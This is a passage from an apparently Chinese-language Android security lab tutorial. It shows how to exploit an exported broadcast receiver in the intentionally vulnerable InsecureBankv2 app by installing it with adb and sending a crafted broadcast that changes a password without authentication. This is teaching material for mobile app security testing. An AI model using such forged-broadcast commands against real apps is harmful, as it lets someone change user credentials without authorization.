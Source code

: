     ![4.4ExploitingAndroidBroadcastReceiversMyBroadCastReceiverFile](imgs/4.4ExploitingAndroidBroadcastReceiversMyBroadCastReceiverFile.PNG)

- 将 `InsecureBankv2.apk` 复制到 `Android SDK` 的 `platform-tools` 文件夹下，在模拟器运行时，执行以下命令：

    ```bash
    adb install InsecureBankv2.apk
    ```

- 再次打开 `InsecureBankv2`

- 回到 `platform-tools` 文件夹并在命令行执行以下命令：

    ```bash
    adb shell am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 –es newpass Dinesh@123!
    ```

    ![4.5ExploitingAndroidBroadcastReceiversResult](imgs/4.5ExploitingAndroidBroadcastReceiversResult.PNG)
